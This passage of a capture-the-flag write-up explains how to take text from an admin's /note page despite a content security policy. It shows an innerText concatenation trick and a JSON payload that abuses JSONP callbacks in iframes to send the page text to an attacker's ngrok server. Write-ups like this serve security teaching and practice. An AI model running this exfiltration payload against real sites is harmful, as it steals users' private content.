 We considered trying to setup our own script tag since we could retrieve and set the nonce now, but decided to go with an idea that allowed us to concatenate the
text on the page with the url of a server we owned, and then make a request to it.  This method should work even in the case of a more strict content security policy
that utilizes hashes instead of nonces.

### Concatenation

We realized we could concatenate two values via `innerText` with HTML similar to the following:

```html
<form id='concat'>
   https://url.of.our.server/?
   <div>value_to_concat</div>
</form>
```

Then `window.concat.innerText` would be `https://url.of.our.server/?value_to_concat`.

### Putting it all together

Now all that was left was to craft the payload, test it and send it to the admin(TJMike).  We crafted a payload that would send us the full `innerText` of the `/note` page:

```json
{
   "__proto__":{},
   "theme":{
      "cb":"document.body.firstElementChild.innerHTML=window.name.toString"
   },
   "payload":[
      "<form id='concat'>https://0b7660a35154.ngrok.io/?<div></div></form>",
      "<iframe srcdoc='<script src=/theme?cb=window.top.concat.firstElementChild.innerText=window.top.document.body.innerText.toString></script>'></iframe>",
      "<iframe srcdoc='<script src=/theme?cb=window.top.location.href=window.top.concat.innerText.toString></script>'></iframe>"
   ]
}
```

In order, this payload should overwrite the contents of the `<nav>` element on the page with our arbitrary HTML containing the two additional script tags which result
in callback executions.  The first grabs the `innerText` of the whole page, and places it in our concatenation `<div>` we added.  The second callback retrieves the
`innerText` of the `concat` form which should be our URL plus the text of the page, and then sets the browser location to make the request.  We
should then be able to grab the contents of the page by looking at the request sent to our local http server.  Testing it on our own browser, we find that it works, though it 
sometimes fails due to the response times from the server and the script loading order.  The failures might be able to be mitigated by
adding in some extra script or image tags, maxing out the concurrent requests of the browser, and hopefully making the load order more predictable for the scripts and
callbacks we care about.
